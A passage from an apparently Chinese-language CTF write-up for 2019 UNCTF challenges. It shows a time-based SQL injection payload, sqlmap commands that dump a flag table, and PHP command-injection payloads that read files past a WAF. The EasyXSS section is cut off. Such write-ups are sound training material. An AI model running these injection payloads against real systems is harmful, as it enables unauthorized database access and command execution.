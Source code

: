 改一下语句，改成：id\`) union select 1,sleep(3)%23

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/30518999ae15aa1b577cf77963d6f8ca.png)

延时成功，证明可以使用盲注，我们可以上 sqlmap了：

执行语句：python sqlmap.py -u
"http://127.0.0.1/?keyword[]=column&keyword[1][]==&keyword[1][]=id\`) union
select 1,2\*%23"

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/8e6e95c9b025898fe834d9923f2375a2.png)

然后加上 --current-db 得出当前数据库为 haha。

加上 -D haha --tables 跑出表名，发现存在 flag 表。

最后加上参数：-D haha -T flag --dump 跑出flag：

![](https://ctfwp.wetolink.com/2019unctf/easy_sql_injection/9e406dda1d224a57d5807d9fd7bc08b1.png)


### easyphp
#### 预备知识
1）	通过管道执行命令绕过waf
#### 解题过程

1）打开浏览器，访问目标主机，审计源码

2）提交如下payload system(“ ls;cat”);

![](https://ctfwp.wetolink.com/2019unctf/easy_php/72dc63fac1601992e000c847fc5c644b.png)

1.  发现flag文件，继续提交如下payload system(“\<flag cat”);

2.  使用脚本循环上传，并访问使用脚本不间断获取返回文件
    名并使用脚本访问该文件以便获得稳定的页面

![](https://ctfwp.wetolink.com/2019unctf/easy_php/5f32b440e96727212ea59ca3cb99ca21.png)

### EasyXSS
#### 预备知识
1）	由于网站开发者在进行代码编写过程中未对输入参数进行严格校验及过滤，导致黑客可以在页面上插入 XSS 语句。
2）	后端程序未关闭调试模式，可以将前端发送的数据回显出来。

#### 解题过程
步骤：

1.  打开靶机，是这样一个页面。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/3cc3d131f809c4db4c8be6925145cc32.png)

1.  随意测下，页面有 xss。

![](https://ctfwp.wetolink.com/2019unctf/EasyXSS/47872259fe6f74fdc3784b25c575f960.png)
